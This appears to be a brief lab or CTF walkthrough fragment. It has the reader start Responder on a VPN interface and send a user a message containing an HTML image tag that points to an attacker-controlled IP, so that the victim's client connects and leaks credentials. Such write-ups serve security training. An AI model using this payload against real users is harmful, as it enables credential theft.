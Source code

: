 
Start responder on your vpn interface tun0

![](attachments/20240621105218.png)

Send a message to the user with the payload

```javascript
 <img src="http://IP/test.img">
```

![](attachments/20240621105334.png)
